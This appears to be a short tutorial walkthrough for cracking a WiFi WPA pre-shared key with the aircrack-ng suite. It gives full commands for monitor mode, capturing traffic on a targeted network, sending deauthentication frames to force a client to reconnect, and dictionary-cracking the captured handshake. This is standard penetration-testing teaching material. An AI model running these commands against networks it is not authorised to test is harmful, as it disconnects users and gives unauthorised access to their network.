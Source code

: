 # 2. WPA PSK Exploit Walkthrough

1. Checking Wireless Network Card

2. Run **airmon-ng** to check and kill for the processes that could interfere with the operation

3. Put the network adapter in monitoring mode

 4. Now, check for available wireless networks.  
 command: airodump-ng wlan0mon  
 Output:

 5. run the below command to capture the traffic  
 root@kali:~\# airodump-ng -c 2 --bssid 50:D4:F7:3C:3A:76 -w capturedfile wlan0mon

 List of workstations and data transfer

6. Run this command to disconnect a client from the network and force it to reconnect  
root@kali:~\# aireplay-ng -0 -1 -a 50:D4:F7:3C:3A:76 -c 08:D8:33:F2:3B:50 wlan0mon

7. Now there should be a captured file .cap in the directory  
8. Run below command to extract the password from the file  
root@kali:~\# aircrack-ng -w mywordlist.txt -b 50:D4:F7:3C:3A:76 capturedfile-02.cap

